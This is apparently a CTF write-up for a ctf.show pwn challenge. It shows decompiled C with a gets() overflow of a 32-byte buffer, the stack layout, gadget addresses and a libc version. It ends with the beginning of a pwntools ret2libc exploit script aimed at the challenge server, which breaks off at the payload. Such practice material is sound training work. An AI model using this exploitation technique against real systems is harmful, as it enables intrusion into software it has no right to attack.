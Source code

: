 



```c
__int64 ctfshow()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Hello CTFshow");
  return gets(v1);
}
```



```
-0000000000000020 var_20          db 32 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```



rdi、ret：

![image-20241102123904022](../_media/image-20241102123904022.png)





libc选择：

```
libc6_2.27-3ubuntu1.6_amd64
```



exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28212

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x4007e3 
retx_addr = 0x4004fe


offset = b'a'* (0x20 + 0x08)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ctfshow_addr = elf.symbols['ctfshow']

payload = offset
```